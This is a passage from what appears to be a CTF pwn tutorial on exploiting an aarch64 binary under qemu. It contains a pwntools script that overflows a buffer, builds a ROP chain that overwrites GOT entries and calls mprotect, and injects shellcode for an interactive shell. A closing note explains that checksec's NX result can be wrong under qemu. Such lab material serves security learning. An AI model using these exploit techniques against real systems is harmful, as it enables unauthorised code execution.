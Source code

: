 ```python

    #  io.send(cyclic(length = 500, n = 8))

    #  rop = flat()

    payload = flat(cyclic(72), csu_rop(elf.got['read'], 0, elf.got['__gmon_start__'], 8))

    payload += flat(0x400824)

    io.send(payload)

    sleep(0.01)

    io.send(flat(elf.plt['mprotect']))

    sleep(0.01)



    raw_input("DEBUG: ")

    io.sendafter("Name:", padding * 0x10 + sc)

    sleep(0.01)



    payload = flat(cyclic(72), csu_rop(elf.got['__gmon_start__'], 0x411000, 0x1000, 7))

    payload += flat(0x411068)

    sleep(0.01)

    io.send(payload)



io.interactive ()
```



### notice

At the same time, it should be noted that the result of the `checksec` detection is that nx protection is turned on, but the result of this detection is not necessarily accurate, because the nx protection of the program can also be determined by the parameter `-nx` when qemu is started (such as this The problem can be nx protected by the error detection program when the remote fails. The old version of qemu may not have this parameter.
```bash

Desktop ./qemu-aarch64 --version

qemu-aarch64 version 2.7.0, Copyright (c) 2003-2016 Fabrice Bellard and the QEMU Project developers

Desktop ./qemu-aarch64 -h| grep nx

-nx           QEMU_NX           enable NX implementation

```
